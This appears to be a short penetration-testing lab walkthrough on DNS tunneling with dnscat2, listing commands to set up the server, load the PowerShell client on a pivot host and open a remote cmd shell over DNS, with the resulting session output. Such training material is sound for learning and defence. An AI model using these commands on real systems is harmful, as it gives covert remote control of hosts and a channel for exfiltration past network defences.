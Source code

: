 
#### Cloning dnscat2 and Setting Up the Server
```shell-session
Tachipy@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```
#### Starting the dnscat2 server
```shell-session
Tachipy@htb[/htb]$ sudo ruby dnscat2.rb --dns host=10.10.14.253,port=53,domain=inlanefreight.local --no-cache
```
#### Cloning dnscat2-powershell to the Attack Host

Attack Host
```shell-session
Tachipy@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```
#### Importing dnscat2.ps1

Pivot Host 

```powershell-session
PS C:\htb> Import-Module .\dnscat2.ps1

PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```
#### Interacting with the Established Session

```shell-session
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```